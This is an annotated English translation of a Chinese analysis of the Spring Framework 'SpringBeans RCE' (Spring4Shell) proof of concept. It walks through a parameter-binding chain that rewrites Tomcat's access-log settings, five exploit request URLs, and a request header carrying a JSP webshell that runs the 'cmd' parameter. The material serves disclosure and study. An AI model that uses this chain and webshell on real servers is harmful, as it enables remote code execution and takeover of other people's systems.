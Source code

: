 This is a translated version of the Vulnerability Analysis document ([original here](https://github.com/tweedge/springcore-0day-en/blob/main/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%20(Vulnerability%20Analysis).pdf)) that the PoC author (`p1n93r`) released. It contains my own annotations as and dissections of screenshots as well. I hope it helps!

# SpringBeans RCE Vulnerability Analysis (Translated)

## Requirements
* JDK9 and above
* Using the Spring-beans package
* Spring parameter binding is used
* Spring parameter binding uses non-basic parameter types, such as general POJOs

> *Analyst's note:* This stated that the vulnerability can only attain RCE in nondefault cases. The author later claims this is a reasonable use of SpringBeans. Since this is not the *default* case, I'm laying shame on any news outlet claiming this vulnerability is the next log4shell. It categorically isn't.

## Demo

```
https://github.com/p1n93r/spring-rce-war
```

> *Analyst's note:* Gone, and no saved version. :/

## Vulnerability Analysis
Spring parameter binding does not introduce too much, you can do it yourself; its basic usage is to use the form of `.` to assign values to parameters. The actual assignment process will use reflection to call the parameters `getter` or `setter`.

When this vulnerability first came out, I thought it was a rubbish hole, because I thought there was a Class type attribute in the parameters that I needed to use, and no fool would open it.
I will use this property in POJOs; but when I follow it carefully, I find that things are not so simple.

For example, the data structure of the parameters I need to bind is as follows, which is a very simple POJO:

```
/**
* @author : p1n93r
* @date : 2022/3/29 17:34
*/
@Setter
@Getter

public class EvalBean {
    public EvalBean() throws ClassNotFoundException {
        System.out.println("[+] called EvalBean.EvalBean");
    }

    public String name;
    public CommonBean commonBean;

    public String getName() {
        System.out.println("[+] called EvalBean.getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("[+] called EvalBean.setName");
        this.name = name;
    }

    public CommonBean getCommonBean() {
        System.out.println("[+] called EvalBean.getCommonBean");
        return commonBean;
    }

    public void setCommonBean(CommonBean commonBean) {
        System.out.println("[+] called EvalBean.setCommonBean");
        this.commonBean = commonBean;
    }
}
```

My Controller is written as follows, which is also very normal:

```
@RequestMapping("/index")
public void index(EvalBean evalBean, Model model) {
    System.out.println("=================");
    System.out.println(evalBean);
    System.out.println("=================");
}
```

So I started the whole process of parameter binding. When I followed the call position as follows, I was stunned.

> *Analyst's notes on screenshot 1*
>
> The author then shows a screenshot of `BreanWrapperImpl.class` (see [Spring Frameworks BeanWrapperImpl docs](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/beans/BeanWrapperImpl.html)) with an arrow pointing to `this.getCachedIntrospectionResults()` on line 110, with the label "Find property names from this cache."
> 
> The full line is:
>
> `PropertyDescriptor pd = this.getCachedIntrospectionResults() getPropertyDescriptor(propertyName);`
>
> Additionally, the author highlights several bind and [set/apply]PropertyValue events in their debugger, with the note "the process of Spring parameter binding."

When I looked at this "cache", I was stunned, why is there a "class" attribute cache here? ? ? ! ! ! ! !

> *Analyst's notes on screenshot 2*
>
> The author is still viewing the same `BreanWrapperImpl.class` file, hovering over `this.getCachedIntrospectionResults()` and using IntelliJ's Evaluate function. They show that the `propertyDescriptorCache` class definition is:
>
> `"class" -> (GenericTypeAwarePropertyDescriptor@5848) *org.springframework.beans.GenericTypeAwarePropertyDescriptor ...`
>
> And comment: "There is actually a class. There is no need to store the class attribute in the POJO we use at all. When spring defines parameters, it will bring a class property used to refer to the POJO class to be bound."


When I saw this, I knew I was wrong, this is not a garbage hole, it is really a nuclear bomb-level loophole! Now it is clear that we can easily get the class pair.

For example, the rest is to use this class object to construct the utilization chain. At present, the simpler way is to modify the log configuration of Tomcat and write the shell to the log.

The complete utilization chain is as follows:

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%66%75%63%6b%7d%69
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=%48%3a%5c%6d%79%4a%61%76%61%43%6f%64%65%5c%73%74%75%70%69%64%52%7
class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuckJsp
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

Looking at the utilization chain, you can see that it is a very simple way to modify the Tomcat log configuration and use the log to write a shell; the specific attack steps are as follows, and the following five requests are sent successively:

```
http://127.0.0.1:8080/stupidRumor_war_exploded/index?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%66%75%6
http://127.0.0.1:8080/stupidRumor_war_exploded/index?class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
http://127.0.0.1:8080/stupidRumor_war_exploded/index?class.module.classLoader.resources.context.parent.pipeline.first.directory=%48%3a%5c%6d
http://127.0.0.1:8080/stupidRumor_war_exploded/index?class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuckJsp
http://127.0.0.1:8080/stupidRumor_war_exploded/index?class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

After sending these five requests, Tomcat's log configuration is modified as follows:

> *Analyst's notes on screenshot 3*
>
> The author is now viewing a code fragment of `((WebappClassLoaderBase)evalBean.getClass().getClassLoader().getResources().getContext().getParent().getPipeline().getFirst();`
> 
> They show that for the AccessLogValve, the suffix is now `.jsp`, the the prefix is now `fuckJsp`, etc. - basically showing that the parameters they claim to be setting above have been saved to the `AccessLogValve`, overwriting the original configuration. **The goal of this is to manipulate this alleged vulnerability to create a log file with valid JSP in it to use as a webshell, which the attacker can then utilize normally.**

Then we just need to send a random request, add a header called fuck, and write to the shell:

```
GET /stupidRumor_war_exploded/fuckUUUU HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
fuck: <%Runtime.getRuntime().exec(request.getParameter("cmd"))%>
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

> *Analyst's notes on screenshot 4*
>
> The author shows a directory view which includes a presumably-new file titled `fuckJsp.jsp` - which the author claims to have set as the `AccessLogValve` with their above exploit. This is claimed to work because they set the logger to log the `fuck` headers of requests to `fuckJsp.jsp`. `fuckJsp.jsp` contains the contents:
>
> `-`
> `<%Runtime.getRuntime().exec(requests.getParameter("cmd"));%>`
> `-`
>
> A simple webshell which executes anything given in the `cmd` parameter, which the author points to with the descriptor "successfully wrote the shell."

The shell can be accessed normally:

> *Analyst's notes on screenshot 5*
>
> The author now shows Burp overlaid with `calc.exe` open after running a GET request to `/stupidRumor_war_exploded/fuckJsp.jsp?cmd=calc`

## Summary

* Now that the class object can be called, the use method must not write the log;
* I can follow it later. Why is a POJO class reference retained during the parameter binding process?
